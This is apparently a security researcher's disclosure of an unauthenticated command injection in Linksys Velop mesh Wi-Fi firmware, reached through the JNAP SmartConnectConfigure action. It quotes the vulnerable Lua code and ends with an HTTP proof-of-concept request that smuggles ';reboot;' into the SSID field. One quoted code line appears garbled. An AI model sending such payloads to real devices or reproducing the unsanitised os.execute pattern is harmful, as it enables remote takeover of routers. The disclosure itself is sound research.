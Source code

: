 ```yaml
---
published: true
categories: [vulnerability,Linksys]
tags: [Linksys Velop Command Injection]
---
```


### Affected Software
The firmware version which I test is 1.1.2.185309
### Product Background
Velop is WHOLE HOMEMESH Wi-Fi system from LINKSYS. It allows users enjoy fast, nonstop Wi-Fi everywhere with Velop’s modular easy-to-use Wi-Fi Mesh system.
There are three categories from their official site :WHW0303,WHW0302,WHW0301. The differences between these three is the pack count: 1, 2 or 3. The system are the same.
### Vulnerability Details
No CVE at the moment
There is a command injection vulnerability through JNAP action of http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure , the vulneraibility may lead to RCE without authentication
JNAP is a web services protocol for Cisco, similar as HNAP. 

There are many X-JNAP-Actions can be made through HTTP request. One of the action is http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure , for example, the http server can handle the following request without any authentication.
~~~http
POST /JNAP/ HTTP/1.1
    Host: 10.158.1.1
    Accept: application/json; charset=UTF-8
    Expires: Fri, 10 Oct 2015 14:19:41 GMT
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
    Cache-Control: no-cache
    Content-Type: application/json; charset=UTF-8
    Content-Length: 135
    User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
    Connection: close
    X-JNAP-Action: http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure
    
    {"configApSsid":"ssid","configApPassphrase":"wifipass","srpLogin":"user","srpPassword":"password"}
~~~

Through the action name, this request seems to be used to configure the smart wifi so it needn't any authentication.The first .lua file which processes this request is smartconnect_server.lua in /JNAP/modules/:
~~~lua
local function SmartConnectConfigure(ctx, input)
        local smc = require('smartconnect')
        local sc = ctx:sysctx()
        local error, output = smc.smartConnectConfigure(sc, input)
        return error or 'OK'
    end
~~~

Input parameters will be passed to smartConnectConfigure function in smartconnect.lua in /usr/local/lib/lua/5.1/, when we looked into this function and found there is no check of the input parameters:

~~~lua
function _M.smartConnectConfigure(sc, input)
        sc:writelock()
        local hdk = require('libhdklua')
        local smart_mode = sc:get_smartmode()
        if smart_mode == 2 then
            -- If a device is Master node.
            local error, output = bluetooth.btSmartConnectConfigure(input.configApSsid, input.configApPassphrase, input.srpLogin, input.srpPassword)
            if not error then
                return nil
            else
                return error
            end
        elseif smart_mode == 0 then
            -- If a device is Unconfigured.
            sc:set_smartconnect_configured_ssid(input.configApSsid);
            sc:set_smartconnect_configured_passphrase(input.configApPassphrase);
            sc:set_smartconnect_auth_login(input.srpLogin);
            sc:set_smartconnect_auth_pass(input.srpPassword);
            sc:set_smartmode(1)
            sc:set_bridge_mode_wo_reboot(1)
            sc:set_wifibridge_mode_wo_event(2)
            -- sc:setevent(_M.SMART_CONNECT_SETUP_STATUS, 'DONE')
            -- sc:setevent(_M.FORWARDING_RESTART, '')
            os.execute('smcdb_cli create')
            os.execute('smcdb_cli update -s '..input.configApSsid..' -p '..input.configApPassphrase..' -l '..input.srpLogin..' -a '..input.srpPassword)
            os.execute('sysevent set smart_connect::setup_status AUTH')
            os.execute('sysevent set forwarding-restart')
            return nil
        else
            return 'ErrorBTUnsupportedMode'
        end
    end
~~~

Then btSmartConnectConfigure will be called:

~~~lua
function _M.btSmartConnectConfigure(configap, configpass, srplogin, srppass)
        local opt = '-f '..'-A '..configap..'-P '..configpass..'-L '..srplogin..'-R '..srppass
        local error, output = _M.btRunCentralCommandSync(opt)
        if error then
            return '_ErrorUnexpected'
        end
        return nil, output
    end

    function _M.btRunCentralCommandSync(option)
        assert(option)
        local output = {}
        local table
        local jsonData
        local json = require('libhdkjsonlua')
        local file = io.(_M.RUN_CENTRAL_CMD_SYNC:format(option))
        if file then
            jsonData = file:read('*a')
            file:close()
            -- Parsing result
            table = json.parse(jsonData)
            if not table then
                platform.logMessage(platform.LOG_ERROR, ('Failed parsing JSON data\n'))
                return 'error_get_result_fail'
            end
            if table.result == 'error_bt' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'error_get_result_fail'
            end
            if table.result == 'error_jnap_req_fail' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'error_get_result_fail'
            end
            if table.result == 'error_not_connected' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTNotConnected'
            end
            if table.result == 'error_conn_lost' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTConnectionLost'
            end
            if table.result == 'error_notify_timeout' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTPeripheralNotRespond'
            end
            if table.result == 'error_command_fail' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTCommandFailed'
            end
            if table.result == 'error_notify_enable_fail'
                or table.result == 'error_gatt_read_fail'
                or table.result == 'error_gatt_write_fail' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTCommunicationFailed'
            end
           output = table
        end
        return nil, output
    end
~~~

RUN_CENTRAL_CMD_SYNC is defined at the top of bluetooth.lua

    _M.RUN_CENTRAL_CMD_SYNC = '/usr/bin/btsetup_central %s'

So, there are four parameters passed to the function btSmartConnectConfigure: configApSsid,configApPassphrase,srpLogin and srpPassword. In the btRunCentralCommandSync function,  there is a call to /usr/bin/btsetup_central with the four parameters given. There is not any check of the four parameters and cause a command injection problem. Since this request will be processed without authentication, an attacker can get RCE with preauth.

#### PoC
The following PoC will cause a reboot of the node.
~~~http
    POST /JNAP/ HTTP/1.1
    Host: 10.158.1.1
    Accept: application/json; charset=UTF-8
    Expires: Fri, 10 Oct 2015 14:19:41 GMT
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
    Cache-Control: no-cache
    Content-Type: application/json; charset=UTF-8
    Content-Length: 135
    User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
    Connection: close
    X-JNAP-Action: http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure
    
    {"configApSsid":"testssid;reboot;","configApPassphrase":"testwifipass","srpLogin":"testlogin","srpPassword":"testpass"}
~~~

### Timeline

2018-03-04: Discovered
2019-02-05: Reported, but the vendor has fixed
